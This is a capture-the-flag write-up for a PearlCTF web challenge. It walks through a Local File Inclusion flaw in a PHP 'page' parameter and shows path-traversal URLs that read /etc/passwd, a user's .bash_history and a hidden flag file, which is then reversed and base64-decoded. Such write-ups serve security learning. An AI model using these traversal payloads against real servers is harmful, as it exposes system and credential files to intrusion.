

# Challenge description

APD messed up while setting up the system—now files are leaking! Can you help uncover the hidden secrets?

# Soluce

When you arrive and check the home page, there is this hint in comments:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=home.php

```
Strange how everyone leaves a hint.txt when setting up a new profile... Maybe it's worth a look? 
```

I checked the source code of the other page and found the following comment:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=info.php
```
 WARNING: Sensitive user credentials are stored in 'passwd'. Do NOT share.
```

I guessed that we can do a Local File Inclusion (LFI) attack by changing the `page` parameter:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../etc/passwd

That displays the content of the `/etc/passwd` file:

```shell
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin lfi-user:x:1001:1001::/home/lfi-user:/bin/bash fake-user:x:1002:1002::/home/fake-user:/bin/false
```

So, we can see that there is a user named `lfi-user` and `fake-user`. I tried to access the `lfi-user`'s home directory to find the "hint.txt" file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/hint.txt

This displays the following content:
```
The past holds secrets... People often retrace their steps to find what was lost. 
```

So I will try to access a bash history file to find the commands that were executed:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/.bash_history

This displays the following content:
```shell
cat /var/www/html/page/dev_notes.txt ls /var/www/html/page/ 
```

I tried to access the `dev_notes.txt` file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=dev_notes.txt

This displays the following content:
```
The real prize isn’t here... It might be "hidden" in the shadows, just a few steps **behind** where you are looking. Only the curious will uncover the "flag". 
```

So I tried to find a hidden directory by accessing the `/var/www/html/` and `/var/www/` directories. When you put a bad path, the page displays the following message:
```
Warning: include(page/../../../../var/www/flag): Failed to open stream: No such file or directory in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/flag' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

Si I tried a lot of paths and finally:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/

This displays the following content:
```
Warning: include(/var/www/hidden): Failed to open stream: Success in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/hidden/' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

So the flag is in the `/var/www/hidden/` directory. I tried to access the `flag` file:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/flag.php

This displays the following content:
```
95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc
```



When you look at the screen, the title is inverted and the text is written in reverse.

So with this script:
```python
encoded_string = "95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc"
reversed_string = encoded_string[::-1]
print(reversed_string)
```

You get:
```
cGVhcmx7bDBjNGxfZjFMZV9JbjNMdTVpMG59
```

And you can decode it with base64:

The flag is: `pearl{l0c4l_f1Le_In3Lu5i0n}`
